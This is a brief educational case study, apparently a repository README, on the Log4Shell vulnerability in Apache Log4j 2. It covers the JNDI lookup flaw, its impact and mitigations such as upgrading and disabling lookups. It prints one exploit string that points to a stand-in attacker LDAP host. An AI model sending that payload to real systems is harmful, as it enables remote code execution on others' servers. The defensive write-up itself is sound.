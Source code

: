 
# Log4Shell (CVE-2021-44228) Case Study

## Overview
Log4Shell is a critical vulnerability discovered in the popular Java-based logging utility, Apache Log4j 2. This flaw allows remote code execution (RCE) due to improper input validation, making it one of the most severe security incidents in recent history.

- **CVE ID:** CVE-2021-44228  
- **Published Date:** December 9, 2021  
- **Severity:** Critical (CVSS Score: 10.0)  
- **Affected Versions:** Log4j 2.x (2.0–2.14.1)  

## Technical Breakdown
The vulnerability stems from the Log4j library’s handling of JNDI (Java Naming and Directory Interface) lookups. When an attacker sends a specially crafted request, Log4j resolves the malicious payload, allowing arbitrary code execution.

### Exploit Example:
```
${jndi:ldap://attacker.com/a}
```
This string exploits Log4j’s JNDI lookup feature to fetch malicious code from an attacker-controlled LDAP server.

## Impact
- **Remote Code Execution (RCE):** Full control over affected systems.
- **Widespread Exposure:** Affected countless applications and cloud services, including Apple, Twitter, and Minecraft.

## Solutions & Recommendations
1. **Upgrade Log4j:** Immediately upgrade to version 2.17.0 or later where the vulnerability is patched.
2. **Disable JNDI Lookups:** For systems where upgrading isn’t feasible:
   ```
   log4j2.formatMsgNoLookups=true
   ```
3. **Apply Network Restrictions:** Block outbound LDAP, RMI, and DNS traffic from untrusted sources.
4. **Security Monitoring:** Deploy Intrusion Detection Systems (IDS) to detect exploitation attempts.
5. **Code Review:** Audit custom applications for embedded vulnerable Log4j versions.

## References
- [Apache Log4j Vulnerability Guidance](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance)  
- [NVD - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
